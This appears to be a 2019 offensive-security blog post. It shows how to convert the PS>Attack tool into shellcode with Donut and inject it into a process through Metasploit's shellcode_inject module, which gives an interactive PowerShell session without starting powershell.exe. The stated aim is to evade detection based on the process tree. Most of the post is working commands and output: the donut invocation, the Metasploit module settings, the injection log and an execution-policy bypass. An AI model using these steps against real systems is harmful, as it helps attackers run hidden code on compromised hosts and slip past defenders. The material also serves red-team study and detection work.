

_**Oct 3, 2019**_

## We Don't Need PowerShell.exe: Meterpreter Edition!

I am keeping playing with the awesome [Donut](https://github.com/TheWover/donut) project and this time we are going to spawn a reflective, interactive PowerShell session without relying on `powershell.exe`! 🐱‍👤

[](https://asciinema.org/a/uxD6fGs5XYKNhSk9jxv11d4Zr)

# Prerequisites

First, I suggest to read the following blog posts for a bit of context:

- https://decoder.cloud/2017/11/02/we-dont-need-powershell-exe/
- https://decoder.cloud/2017/11/08/we-dont-need-powershell-exe-part-2/
- https://decoder.cloud/2017/11/17/we-dont-need-powershell-exe-part-3/
- https://decoder.cloud/2017/12/13/we-dont-need-powershell-exe-4/
- https://iwantmore.pizza/posts/meterpreter-shellcode-inject.html

## Motivation

[As shown in the previous post](https://iwantmore.pizza/posts/meterpreter-shellcode-inject.html), we are now able to reflectively execute arbitrary binaries thanks to [Donut](https://github.com/TheWover/donut) within a Meterpreter session. Is it also possible to spawn a `cmd.exe` or `powershell.exe` in this way and evade any potential detection running on the host's process tree? Let's find it out!

## Investigation

If we generate a shellcode for `cmd.exe` and `powershell.exe` and try to inject it into a `notepad.exe` process, nothing seems to be happening, or more precisely, the entire process exits. Unfortunately, at the time of writing, [Donut](https://github.com/TheWover/donut) only supports arguments passing for .NET EXEs and .NET DLLs so we cannot try to mess with the command line in order to keep alive our injected shell.  

Are we done already?  

Maybe there are some other shells that we can use in place of the built-in ones. Let's try out with some open source .NET project that executes PowerShell commands without directly relying on `powershell.exe`: say welcome to [PS>Attack](https://github.com/jaredhaight/PSAttack)!  

Let's generate the shellcode with [Donut](https://github.com/TheWover/donut):

```text
$ donut -f /tmp/psattack.exe -a 2 -o /tmp/psattack.bin

  [ Donut shellcode generator v0.9.2
  [ Copyright (c) 2019 TheWover, Odzhan

  [ Instance type : PIC
  [ Module file   : "/tmp/psattack.exe"
  [ File type     : :NET EXE
  [ Target CPU    : AMD64
  [ AMSI/WDLP     : continue
  [ Shellcode     : "/tmp/psattack.bin"
```

Now let's move to Metasploit, spawn a Meterpreter on the target machine and proceed to use the module in the following way:

```text
msf5 post(windows/manage/shellcode_inject) > use post/windows/manage/shellcode_inject
msf5 post(windows/manage/shellcode_inject) > set SHELLCODE /tmp/psattack.bin
msf5 post(windows/manage/shellcode_inject) > set SESSION 1
msf5 post(windows/manage/shellcode_inject) > run


[*] Running module against MSEDGEWIN10
[*] Spawned process 6988
[*] Process found checking Architecture
[+] Process is the same architecture as the payload
[*] Injecting shellcode into process ID 6988
[*] Allocating memory in process 6988
[*] Allocated memory at address 0x1bc0ec60000, for 1044960 byte shellcode
[+] Successfully injected payload in to process: 6988
[*] Interacting

 (   (                                           )  
 )\ ))\ )   (      *   ) *   )   (       (    ( /(  
(()/(()/(   )\   ` )  /` )  /(   )\      )\   )\()) 
 /(_)/(_)((((_)(  ( )(_)( )(_)((((_)(  (((_)|((_)\  
(_))(_))__)\ _ )\(_(_()(_(_()) )\ _ )\ )\___|_ ((_) 
| _ / __\ (_)_\(_|_   _|_   _| (_)_\(_((/ __| |/ /  
|  _\__ \> / _ \   | |   | |    / _ \  | (__  ' <   
|_| |___/_/_/ \_\  |_|   |_|   /_/ \_\  \___|_|\_\ 

Loading...

...

Set -ExecutionPolicy Bypass -Scope Process -Force
[Version 1.99.1] Build Date 2/17/2018 2:45:08 PM

If you'd like a version of PS>Attack thats even harder for AV
to detect checkout http://github.com/jaredhaight/PSAttackBuildTool

For help getting started, run 'get-attack'

C:\Windows\system32 #> echo "we don't need powershell!"
we don't need powershell!
C:\Windows\system32 #> 'amsiutils'
'amsiutils'
C:\Windows\system32 #> exit
[*] Post module execution completed
```

It works, we have successfully spawned an interactive PowerShell session without actually spawning `powershell.exe`! 🚀



[back](../)
